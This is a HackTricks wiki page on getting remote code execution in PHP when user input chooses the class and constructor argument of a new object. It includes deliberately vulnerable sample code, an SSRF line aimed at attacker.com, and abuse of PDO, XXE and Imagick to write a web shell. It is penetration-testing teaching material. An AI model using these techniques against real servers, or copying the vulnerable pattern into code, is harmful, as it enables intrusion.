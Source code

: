 # PHP - RCE abusing object creation: new $\_GET\["a"]\($\_GET\["b"])

<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦 - </strong></a><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️ - </strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

## Introduction

In the situation where you can create a new arbitrary object like `new $_GET["a"]($_GET["a"])`you might be able to obtain RCE, and [**this writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) exposes different ways to get RCE.

## RCE via Custom Classes or Autoloading

In the construction `new $a($b)`, the **variable `$a` stands for the class name** that the object will be created for, and the variable **`$b` stands for the first argument** that will be passed to the object’s constructor.

If `$a` and `$b` come from GET/POST, they can be **strings or string arrays**. If they come from **JSON** or elsewhere, they **might have other types**, such as object or boolean.

Let’s consider the following example:

```php
class App {
    function __construct ($cmd) {
        system($cmd);
    }
}

# Additionally, in PHP < 8.0 a constructor might be defined using the name of the class
class App2 {
    function App2 ($cmd) {
        system($cmd);
    }
}

# Vulnerable code
$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```

In this code, you can set  `$a`  to  `App`  or  `App2`  and  `$b`  to  `uname -a`. After this, the command  `uname -a`  will be executed.

When there are no such exploitable classes in your application, or you have the class needed in a separate file that isn’t included by the vulnerable code, you may take a look at autoloading functions.

**Autoloading functions** are set by registering callbacks via `spl_autoload_register` or by defining `__autoload`. They are called when an instance of an unknown class is trying to be created.

```php
# An example of an autoloading function
spl_autoload_register(function ($class_name) {
        include './../classes/' . $class_name . '.php';
});

# An example of an autoloading function, works only in PHP < 8.0
function __autoload($class_name) {
        include $class_name . '.php';
};

# Calling spl_autoload_register with no arguments enables the default autoloading function, which includes lowercase($classname) + .php/.inc from include_path
spl_autoload_register();
```

Depending on the PHP version, and the code in the autoloading functions, some ways to get a Remote Code Execution via autoloading might exist.

## RCE via Built-In Classes

When you don’t have custom classes and autoloading, you can rely on **built-in PHP classes only**.

There are from 100 to 200 built-in PHP classes. The number of them depends on the PHP version and the extensions installed. All of built-in classes can be listed via the `get_declared_classes` function, together with the custom classes:

```php
var_dump(get_declared_classes());
```

Classes with useful constructors can be found via [the reflection API](https://www.php.net/manual/en/book.reflection.php).

Displaying constructors and their parameters using the reflation API: [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF)\


![](https://swarm.ptsecurity.com/wp-content/uploads/2022/07/2.png)

If you control **multiple constructor parameters and can call arbitrary methods** afterwards, there are many ways to get a Remote Code Execution. But if you can pass **only one parameter and don’t have any calls** to the created object, there is **almost nothing**.

I know of only three ways to get something from `new $a($b)`.

### **SSRF + Phar deserialization**

The `SplFileObject` class implements a constructor that allows connection to any local or remote URL:

```
new SplFileObject('http://attacker.com/');
```

This allows SSRF. Additionally, SSRFs in PHP < 8.0 could be turned into deserializations via techniques with the Phar protocol.

### **Exploiting PDOs**

The PDO class has another interesting constructor:

```php
new PDO("sqlite:/tmp/test.txt")
```

The `PDO` constructor accepts DSN strings, allowing us to **connect to any local or remote database** using **installed database extensions**. For example, the SQLite extension can create empty files.

### **SoapClient/SimpleXMLElement XXE**

In PHP ≤ 5.3.22 and ≤ 5.4.12, the constructor of SoapClient was **vulnerable to XXE**. The constructor of SimpleXMLElement was vulnerable to XXE as well, but it required libxml2 < 2.9.

## RCE via Imagick Extension

Checking the **dependencies** of the **project** you are trying to exploit you could find **new classes** that could be **abused to execute commands** creating a new object. In this case, **Imagick** was found to be useful for that purpose.

### VID parser

The VID parser allows to write arbitrary content in an arbitrary path inside the filesystem, which would allow an attacker to write a PHPshell in an accessible folder from the web page and get RCE.

![](<../../../.gitbook/assets/image (157) (3).png>)

#### VID Parser + FIle Upload

When a file is uploaded to PHP it's temporary stored in `/tmp/phpXXXXXX` . The VID parser of Imagick with the **msl** protocol allows to **specify wildcards in the file paths** (so the temporary uploaded file can be easily accessed) and **copy it to any arbitrary location**.\
This is another way to get arbitrary file writing inside the filesystem:

![](<../../../.gitbook/assets/image (159).png>)

### PHP Crash + Brute Force

The [**original writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) explained another way to get RCE by **uploading files with specific content** and making the **server crash before it deletes** that file and then **bruteforcing the name** of the temporary file until **Imagick executes arbitrary PHP code**.

However, apparently the **crash trick** discovered only **worked in an old version of ImageMagick**.

## References

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦 - </strong></a><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️ - </strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
